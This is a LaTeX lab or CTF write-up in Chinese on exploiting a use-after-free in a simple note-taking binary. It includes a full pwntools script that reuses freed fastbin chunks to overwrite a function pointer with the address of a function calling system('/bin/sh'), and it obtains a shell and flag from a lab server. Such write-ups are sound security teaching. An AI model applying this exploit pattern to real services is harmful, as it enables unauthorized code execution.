\documentclass{article}
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{frame=tb,
  language=Python,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,%设置行号位置none不显示行号
  %numberstyle=\tiny\courier, %设置行号大小
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  escapeinside=``,%逃逸字符(1左面的键),用于显示中文例如在代码中`中文...`
  tabsize=4,
  extendedchars=false %解决代码跨页时,章节标题,页眉等汉字不显示的问题
}

\usepackage[utf8]{inputenc}
\usepackage{float}
\date{2023/5/14}
\usepackage{ctex}
\usepackage{graphicx}
\title{Heap(Use After Free)}
\author{叶梓淳 520030910302}

\begin{document}

\maketitle

\section{heap}
    阅读程序汇编代码,程序的主题逻辑是循环执行menu函数,并指示用户输入操作:1表示添加note,2表示删除note,3表示打印指定下标的note,4表示退出程序。
    
      
    对于add\_note函数,程序首先malloc一个note的大小(包括函数指针以及content的指针,共8字节),函数指针的值为print\_note\_content函数的地址,再加上chunk的头部分,共16字节,接着输入content的大小,此时在堆上malloc指定大小的空间并输入内容。del\_note函数的内容是free掉notelist对应index的note以及它的content,但并未置空,notelist上存有的函数指针的地址不会改变,因此存在UAF漏洞。print\_note函数的内容是从notelist上找到对应index指示的函数指针,执行函数(原函数为put函数)。注意到原始代码中存在magic函数执行系统调用system("/bin/sh"),则攻击手段为更改执行流使程序执行magic函数。
    
    magic函数的地址为0x08048945:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{1.png}
    	\end{center}
    \end{figure}
    
    调试程序得到notelist存放的函数指针地址以及相应的内容如下(创建了两个size为4的note,内容为"aaaa","bbbb"):
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{2.png}
    	\end{center}
    \end{figure}
    
    已知fastbin会根据chunk的大小进行管理,顺序为先入后出,其中16字节为最小的chunk。为了更改执行流,需要新创建的note用到原来free掉的note的头(因为notelist存放的是note的头的首地址),并将content的内容改为magic的函数地址,这样执行print(0)操作时函数执行流会被成功篡改,由于分配content前需要分配16字节的头,则最开始需要添加两个note并删除,且给这两个note分配的content大小不能为8字节,使得fastbin管理时不会分配出这部分空间,最终得到脚本如下:    
    
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40010)

def add_note(size, content):
	io.recvuntil(":")
	io.sendline("1")
	io.recvuntil(":")
	io.sendline(str(size))
	io.recvuntil(":")
	io.sendline(content)

def delete_note(index):
	io.recvuntil(":")
	io.sendline("2")
	io.recvuntil(":")
	io.sendline(str(index))

def print_note(index):
	io.recvuntil(":")
	io.sendline("3")
	io.recvuntil(":")
	io.sendline(str(index))

magic_addr = 0x08048945

add_note(32, "aaaa")
add_note(32, "bbbb")

delete_note(0)
delete_note(1)

add_note(8, p32(magic_addr))
print_note(0)

io.interactive()

        \end{lstlisting}
    \end{itemize}

    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{3.png}
    	\end{center}
    \end{figure}
 
   

\end{document}
